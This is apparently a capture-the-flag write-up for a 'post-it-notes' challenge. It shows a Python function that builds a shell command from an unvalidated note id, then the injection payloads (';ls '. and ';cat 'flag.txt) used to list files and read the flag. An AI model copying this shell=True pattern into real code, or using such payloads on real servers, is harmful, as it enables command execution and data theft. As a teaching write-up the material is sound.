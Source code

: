 # post-it-notes

Source: [source/](./source)

Ignoring the questionable quality of the code, close analysis reveals an exploitable function:

```python
def get_note(nid):
    stdout, stderr = subprocess.Popen(f"cat 'notes/{nid}' || echo it did not work btw", shell = True, stdout = subprocess.PIPE, stderr = subprocess.PIPE, stdin = subprocess.PIPE).communicate()
    if stderr:
        print(stderr) # lemonthink
        return {}
    return {
        'success' : True,
        'title' : nid,
        'contents' : stdout.decode('utf-8', errors = 'ignore')
    }
```

`nid` is directly passed into this function from the web server code without any validation. This means that we can do command injection by appending commands to the end of a valid note url(which depends on your server instance).

`';ls '.` reveals the presence of a `flag.txt` file, which we can then read.

Final Exploit: `';cat 'flag.txt`

Flag: `flag{y0u_b3tt3r_n0t_m@k3_m3_l0s3_my_pyth0n_d3v_j0b}`
